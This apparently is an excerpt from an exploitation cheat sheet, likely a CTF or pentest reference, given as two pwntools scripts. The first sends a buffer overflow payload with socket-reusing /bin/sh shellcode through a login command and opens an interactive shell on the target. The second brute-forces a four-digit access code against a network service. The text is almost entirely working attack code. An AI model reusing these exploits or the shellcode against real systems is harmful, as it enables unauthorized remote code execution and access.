 ```
# Payload to reuse the socket
buf=b""
buf+=b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
buf+=b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
buf+=b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
buf+=b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
buf+=b"\x89\xe3\x31\xc9\xcd\x80";

payload = junk + addr + buf

r = remote(host, port, level='error')
r.recvline()
r.sendline("DEBUG")
r.recvline()
r.sendline("USER admin")
r.recvline()
r.sendline("PASS " + payload)

r.interactive()
```

## Example pwntools

```
from pwn import *

for i in range(0, 9999):
    code = "0" * (4- len(str(i))) + str(i)
    # r = process("./mypapp")
    r = remote("localhost", 910, level='error')
    r.recvuntil("[$] ")
    r.sendline(code)
    response = r.recvline()
    r.close()
    if b"Access denied" not in response:
        log.success("Valid code found " + code)
        break
```
